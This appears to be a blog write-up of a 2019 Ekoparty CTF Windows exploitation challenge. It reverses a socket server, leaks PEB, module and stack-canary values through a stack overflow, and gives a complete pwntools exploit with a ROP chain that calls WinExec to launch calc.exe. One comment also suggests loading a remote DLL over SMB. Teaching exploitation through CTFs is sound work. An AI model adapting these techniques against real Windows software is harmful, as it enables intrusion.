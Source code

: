 #+TITLE: BFS CTF 2019 - Eko (windows/pwn)
#+author: Daniel Brodsky
#+date: 2019-10-12
#+hugo_base_dir: ../../
#+hugo_section: writeups
#+startup: inlineimages
#+hugo_menu: :menu "foo" :weight 10 :parent main :identifier single-toml
#+description: windows pwn that isn't just reversing a bunch of obfuscated .NET assembly or a VB script or some shit

** Problem
This problem had no initial description. It was given to me with the offer of getting a ~calc.exe~ sticker if I managed to pop calc.
(TODO link to binary)

** Analysis
The binary provided I need to pwn is a PE32+ Windows executable. Running the binary prints the following:
    
~Ekoparty 2019 - BFS challenge~
~Server listening~
~Waiting for client connections~

and then hangs. Using the references to these strings in memory finds us the function that's the most likely entry for our program's logic.
Most symbols for functions were available after loading a MS symbol server into IDA. Some reversing still needed to be done on local variables to understand their purpose.

This is the code after some cleanup.

(TODO picture of reversed function)

Looking at the decompiled code for this function in IDA, we see that it opens a socket on port 54321, and waits for a connection. Upon receiving a connection, it passes the established connection to another function for further processing. The function ~handleMessage~ first checks the first 16 bytes received from the new connection, expecting the first 8 bytes to be the cookie ~Eko2019\0~, followed by an 8 byte value representing the size of the following write. Adding this header struct to IDA cleaned up the decompiled code a bit.

(TODO pic of header here)

This is the important part of the ~handleMessage~ function after some cleanup.

(TODO pic of check_header here)

Aside from the header check, a couple things stand out immediately. The first is that the size check in the header uses a signed value when checking its upper bound, but an unsigned value when using it to read additional input from the connection. This means that it's possible to write more data than the size of the ~Dst~ buffer, resulting in a stack overflow. However, attempting to use this stack overflow to get code execution directly is no good, as there is a stack canary located just below the header struct in the stack (an IDA decompiler bug hid the canary logic in the decompiled code).

(TODO pic of canary logic)

The other significant logic in the decompiled code that stands out are the calls to ~GetCurrentProcess~ and ~WriteProcessMemory~. ~GetCurrentProcess~ just takes the current process and returns a process handle.

~WriteProcessMemory~ is more interesting. This is the function signature of WriteProcessMemory, taken from Microsoft's Win32 docs (TODO link here):

#+begin_src C++
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
#+end_src

This function takes ~nSize~ bytes of memory from the location ~lpBuffer~ and writes into to ~lpBaseAddress~ inside of ~hProcess~. In this program's case, it's going to write 8 bytes from a buffer created by the function call to ~reverse_str~ with the args set to ~dst_loc[v8=0x3E]~. The value is going to be written into memory and executed as a function with ~v9~ as its argument, and the result will be sent to us by the call to ~send~. The address of the value we're sent comes from ~dst_loc~, which was set to a series of values in ~main~.

#+begin_src C
// this sets the possible values for the data that's written during WriteProcessMemory
  for ( i = 0; i < 0x100; ++i )
  {
    argv = (const char **)dst_loc;
    dst_loc[i] = ((unsigned __int64)i << 56) + 0x488B01C3C3C3C3i64; // 0xC3 are rets
  } 

#+end_src

** Vulnerability

Earlier I mentioned that the stack overflow we get from abusing the signed comparison and unsigned use of the size we pass in couldn't be used to get code execution, since there is a stack canary. However, we can still use this stack overflow to overwrite anything between the ~Dst~ buffer and the end of the stack for the current function.

#+begin_src C
  char *Dst; // [rsp+60h] [rbp-238h]
  int v8; // [rsp+260h] [rbp-38h]
  __int64 *v9; // [rsp+268h] [rbp-30h]
  eko_s buf; // [rsp+270h] [rbp-28h]
  SOCKET s; // [rsp+2A0h] [rbp+8h]
#+end_src

In particular we see here that ~v8~ and ~v9~ can be overwritten when ~Dst~ is overflown. ~v8~ is the variable used to index into ~dst_loc~ to obtain the address whose value we're going to be sent, and ~v9~ is the argument passed to the function selected by ~v8~. We can overwrite ~v8~ and have it set to any index of ~dst_loc~ we want, and we can override ~v9~ to get any argument value for the function we select from ~v8~.

Using a small script we can generate all values contained inside of ~dst_loc~ to see if there are any useful values to use as shellcode (we could also have read them from memory after being generated but this was about just as easy).

#+begin_src python
from pwn import *
start = 0x488B01C3C3C3C3

context.arch='amd64'
p64b = make_packer(64, endian='big', sign='unsigned')

instr = []
for i in range(256):
    print disasm(p64b(( i << 56 ) + start))
#+end_src

Of the values generated by this script, 2 of them are useful for our needs.

#+begin_src asm
Index 0x65
   0:   65 48 8b 01             mov    rax,QWORD PTR gs:[rcx] // returns the value at gs:v9
   4:   c3                      ret    
   5:   c3                      ret    
   6:   c3                      ret    
   7:   c3                      ret
#+end_src

#+begin_src asm
Index 0x66
   0:   66 48 8b 01             data16 mov rax,QWORD PTR [rcx] // returns *v9
   4:   c3                      ret    
   5:   c3                      ret    
   6:   c3                      ret    
   7:   c3                      ret
#+end_src

Why are these 2 snippets of shellcode useful? In the case of index 0x66 it gives us the ability to read any 8 bytes from program memory that we know the address to. For index 0x65 we need to know more about Windows internals.

On AMD64 (Linux) based systems, the segment register gs is used to obtain CPU-related information for the process during runtime. However, for Windows systems the gs register is used to store the Thread Information Block (TIB) (TODO link here). This block contains a lot of useful information the thread may need to lookup when switching in and out of context. One particularly useful item the TIB stores at index 0x60 is the Process Environment Block (PEB) (TODO link here), which stores the lowest-level information needed in userspace and the highest level information needed in kernelspace. From here at offset 0x18 we can find the address to the ldr (https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb_ldr_data), a data structure used to store pointers to all loaded modules available in the process' space. It stores this information in the form of a linked list known as the InMemoryOrderModuleList (IMOML), whose head can be accessed at offset 0x20. The structure of an entry in this list is as follows:
#+begin_src C
typedef struct _LDR_DATA_TABLE_ENTRY {
    PVOID Reserved1[2];
    LIST_ENTRY InMemoryOrderLinks; // ptr to struct that holds linked list pointers
    PVOID Reserved2[2];
    PVOID DllBase;                 // base address of the loaded module
    PVOID EntryPoint;
    PVOID Reserved3;
    UNICODE_STRING FullDllName;
    BYTE Reserved4[8];
    PVOID Reserved5[3];
    union {
        ULONG CheckSum;
        PVOID Reserved6;
    };
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;
#+end_src

The first DLL that's loaded into our process is our binary, so reading offset 0x20 (we start at the list entry and move 0x20 down from there) will get us the base address of our binary. With that, we now have all the tools we need to start forming an exploit.


** Exploit

While the vulnerability above is pretty useful, there's still a lot of work to be done if we want to pop calc on this program. We still need to get the following things:
- a canary leak so we can form a ropchain
- an address to WinExec or a similar function that lets us execute arbitrary PEs
- a ropchain to put our exploit together

*** Canary leak

How a canary is stored for a binary on Windows is different from Linux. On Linux the canary is stored at fs:0x28, which is where glibc places the stack guard value each time the process is run (TODO https://stackoverflow.com/questions/10325713/why-does-this-memory-address-fs0x28-fs0x28-have-a-random-value ). On Windows the stack canary location is hardcoded into the binary at a set offset, which we can easily find by looking at the binary we have. In this binary, the canary is offset ~0xC240~ from the starting address. From what we saw in the previous section, we know the base address of our binary and we can therefore use the same vulnerability as before to get the canary value ~baseDLL+0xC240~. 

Unfortunately, this isn't the actual canary value we're looking for. If you look back to the assembly code used to set the canary value at the top of the function ~handleMessage~ you'll notice that the canary is xor'd by rsp. In order to get the true canary value, we'll need to leak the value of rsp at the time of our function. To do this we can read from ~gs:0x8~, which corresponds to the ~stackBase~ in the TIB and gives us the base of the stack in our process. While we could attempt to compute the exact offset from the stack base that our rsp should be at, I opted to instead brute force the value by reading upwards on the stack until I reached a value I was sure I knew the location of relative to rsp. After that, I read upwards the necessary offset on the stack to get rsp and xor'd it with the canary leak to get the true canary.

#+begin_src python
curr_addr = stack_base
while True:
    curr_addr -= 0x8
    print 'curr addr: ' + str(curr_addr)
    curr_val = u64(send(p64(0x66) + p64(curr_addr)))
    print 'curr val: ' + str(curr_val)
    if curr_val == known_val:
        break
curr_addr -= known_to_rsp_offset # comparing to stack value 0x8 lower than stack top
print 'stack top addr: ' + str(curr_addr)

# xor original canary with rsp value for true canary
true_canary = canary_addr ^ curr_addr
print 'true canary: ' + str(hex(true_canary))
#+end_src

*** WinExec Address
Using the IMOML address we obtained earlier, we can read further into the linked list to obtain list entries to other DLLs that were loaded into the process. Since we want ~WinExec~ so that we can run ~calc.exe~, we'll need to read through the IMOML until we get to the ~kernel32.dll~. ~WinExec~ is always loaded to the same offset from the kernel32 base address so we just need to get the base address and we're good. After leaving the entry for the process dll, we'll end up at the ntdll module. Going one step further brings us to the kernel32 module's entry where we can get the base address like we did before.

*** Ropchain
Now that we have our function to pop ~calc.exe~ and the true stack canary, we can form a ROP chain to get what we came for. I'm not going to go into too much detail about how I made this ropchain, but I used ropper to get all possible gadgets and then found the ones that were useful for setting up a call to ~WinExec~. I reused the buffer provided to store the path to ~calc.exe~ and the same technique I used earlier to get the stack canary to get the address of the buffer so I could pass it as an argument to ~WinExec~. You can see my full exploit below.

#+begin_src python

from pwn import *
from ctypes import *

class header_s(Structure):
    _fields_ = [
            ("cookie", c_char * 8),
            ("size", c_int64)
            ]

def to_str(struct):
    return string_at(addressof(struct), sizeof(struct))

def send(arg):
    p = remote('localhost', 54321)
    header = header_s("Eko2019", -448)
    p.sendline(to_str(header))
    p.sendline('A'*0x1ff + arg + 'AAAAAAA')
    return p.recv()

canary_offset = 0xC240 # canary offset in memory is hardcoded for windows
known_addr_offset = 0x1000 # known addr location is baseDLL + this offset


# loop 1 - get address of PEB using gs:0x60
get_peb = p64(0x65) + p64(0x60)
peb_addr = u64(send( get_peb ))
print 'peb: ' + str(peb_addr)
# loop 2 - get ldr address using cs:<PEB+0x18>
get_ldr = p64(0x66) + p64(peb_addr + 0x18)
ldr_addr = u64(send( get_ldr ))
print 'ldr: ' + str(ldr_addr)
# loop 3 - get InMemoryOrderModuleList adress using cs:<ldr+0x20> (ekoEntry)
get_imoml = p64(0x66) + p64(ldr_addr + 0x20)
imoml_addr = u64(send( get_imoml ))
print 'imoml: ' + str(imoml_addr)
# loop 4 - get DLL base address using cs:<InMemoryOrderModuleList+0x30>
# (offset by 0x10 from where pointer located in linked list so 0x20)
get_dll = p64(0x66) + p64(imoml_addr + 0x20)
dll_addr = u64(send( get_dll ))
print 'dll: ' + str(dll_addr)
# loop 5 - leak original stack canary with cs:<base+canary_offset>
get_canary = p64(0x66) + p64(dll_addr + canary_offset)
canary_addr = u64(send( get_canary ))
print 'canary: ' + str(canary_addr)
# loop 6 - get stackBase from TIB
get_stackBase = p64(0x65) + p64(0x8)
stack_base = u64(send( get_stackBase ))
print 'stack base: ' + str(stack_base)
# loop 6.5 - loop until we get stack top (== to known_offset + known_to_rsp_offset)
# using some string address that only gets used once here
known_val = dll_addr + known_addr_offset
known_to_rsp_offset = 0x8
print 'known val: ' + str(known_val)

curr_addr = stack_base
while True:
    curr_addr -= 0x8
    print 'curr addr: ' + str(curr_addr)
    curr_val = u64(send(p64(0x66) + p64(curr_addr)))
    print 'curr val: ' + str(curr_val)
    if curr_val == known_val:
        break
curr_addr -= known_to_rsp_offset # comparing to stack value 0x8 lower than stack top
print 'stack top addr: ' + str(curr_addr)

# xor original canary with rsp value for true canary
true_canary = canary_addr ^ curr_addr
print 'true canary: ' + str(hex(true_canary))
# loop 7 - get ntdll block address using cs:<ekoEntry+0x10>)
# (offset by 0x10 from where pointer located in linked list so no offset)
get_ntdll = p64(0x66) + p64(imoml_addr)
ntdll_addr = u64(send( get_ntdll ))
print 'ntdll: ' + str(ntdll_addr)
# loop 8 - get kernel32 block address using cs:<ntdll+0x10>
get_kernel = p64(0x66) + p64(ntdll_addr)
kernel_addr = u64(send( get_kernel ))
print 'kernel: ' + str(kernel_addr)
# loop 9 - get kernel32 base address using cs:<kernel+0x30>
get_kernel_base = p64(0x66) + p64(kernel_addr + 0x20)
kernel_base = u64(send( get_kernel_base ))
print 'kernel_base: ' + str(kernel_base)
# compute address of WinExec in kernel32.dll
# can also do LoadLibraryA on smb share UNC name to run custom DLL
WinExec_offset = 0x5e800
winexec_addr = kernel_base + WinExec_offset

# location where we write the path name arg for WinExec
dst_stack = curr_addr + 0x68

# ROPchain from ropper to write our path name from dst into rcx (windows arg1 register) and call WinExec
# pop rax; ret;
pop_rax = dll_addr + 0x1167
# pop rbx; ret;
pop_rbx = dll_addr + 0x16f9
# mov rcx, rbx; call rax
mov_rcx_rbx_call_rax = dll_addr + 0x6081

# loop 10 - ROP chain to call LoadLibrary with calc.exe DLL
p = remote('localhost', 54321)
header = header_s("Eko2019", -448)
p.sendline(to_str(header))
p.sendline('A'*7 + 'C:\\Windows\\System32\\calc.exe\x00'.ljust(0x1f8,'A') + p64(0x66) + p64(kernel_addr + 0x20) +
        'A'*0x10 + p64(true_canary) + 'A'*0x10 +
        p64(pop_rax) +
        p64(winexec_addr) +
        p64(pop_rbx) +
        p64(dst_stack) +
        p64(mov_rcx_rbx_call_rax) +
        'A'*7)

# pop :)
pause()

#+end_src

Finally, the full exploit has been assembled and we can get that sweet, sweet ~calc~.

(TODO picture of exploit being run)
(TODO picture of exploit being run and calc.exe open)



** Opinion
I'm not much of a fan of Windows, but pwning it was pretty cool. This problem was what I wish more CTF problem writers would use as inspiration when writing Windows problems, as most of the time it's some boring and unfun .NET or VB reversing problem. Working on a Windows problem instead of a Linux problem also meant I came away with significantly more new knowledge, since this was a domain I rarely see or work on during CTFs.

Note: I left out in this writeup the hours I spent trying to understand the Windows internals structure from within Windbg because, in reflection, I've realized that much of this problem could have been done completely statically. There's always a fine balance that needs to be found between spending time looking for information and paths to approach a problem, and it's one of the skills I still need to work on when it comes to CTFs and also my career.

** References
 - https://www.geoffchappell.com/studies/windows/win32/ntdll/structs/peb/index.htm (in-depth windows internals information)
 - https://en.wikipedia.org/wiki/Win32_Thread_Information_Block (struct layout for TIB)
 - https://reverseengineering.stackexchange.com/questions/16336/where-es-gs-fs-are-pointing-to (history on segment registers)
 - https://en.wikipedia.org/wiki/Process_Environment_Block (struct layout PEB)
 - https://www.ired.team/offensive-security/code-injection-process-injection/finding-kernel32-base-and-function-addresses-in-shellcode#initialized-structures (getting WinExec)
